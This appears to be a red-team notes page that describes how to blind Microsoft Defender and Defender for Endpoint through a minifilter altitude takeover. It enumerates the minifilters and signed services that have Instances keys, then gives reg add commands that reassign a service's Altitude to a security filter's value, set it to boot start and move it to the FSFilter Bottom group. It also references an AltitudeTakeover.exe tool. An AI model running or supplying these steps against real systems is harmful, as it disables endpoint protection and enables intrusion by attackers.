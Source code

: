 
### Manual Altitude takeover
#### List all the loaded minifilters and their altitude
- Known minifilters
	- `MsSecFlt` is for MDE
	- `WdFilter` is Defender
- If the minifilter has a altitude of `xxxxx.yyyyy` it **can not** be taken over as the `yyyyy` is dynamically assigned and changes every time it is loaded.

```
fltmc
```

#### Identify already signed filter
- Open registry Editor and go to `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\` and find a service with a subkey `Instances`
	- For example `npsvctrig`
- Or loop through them with PowerShell

```powershell
Get-ChildItem "HKLM:\SYSTEM\CurrentControlSet\Services" | Where-Object {Test-Path "$($_.PSPath)\Instances"} | Select-Object PSChildName
```

#### Change Altitude value through registry
- Change/add the `Altitude` `REG_SZ` key under to a security minifilter one
- Change/add the `Start` `REG_DWORD` value to 0
- Change/add the `Group` `REG_SZ` value to for example `FSFilter Bottom` or lower (`40000-49999`)
- Then reboot the system

```
Set Altitude to a security minifilter range
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>\Instances\<INSTANCENAME>" /v Altitude /t REG_SZ /d "<ALTITUDE OF SECURITY MINI FILTER>" /f

Set Start to 0 (BOOT_START)
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v Start /t REG_DWORD /d 0 /f

Set Group to "FSFilter Bottom"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v Group /t REG_SZ /d "FSFilter Bottom" /f
```

### Automated tools
#### Example Windows Defender Antivirus & Endpoint
- What does it do
	- Modifies the `Altitude` values of the `WIMMount` and `npsvctrig` services, sets their `Start` type to `0` (boot start), and assigns them to the `FSFilter Bottom` group. This setup is intended to override or take precedence over the `MsSecFlt` and `WdFilter` minifilter drivers, which are part of Microsoft Defender Antivirus and Microsoft Defender for Endpoint (MDE).
- Link to code (Not published yet)

```
.\AltitudeTakeover.exe -e
```
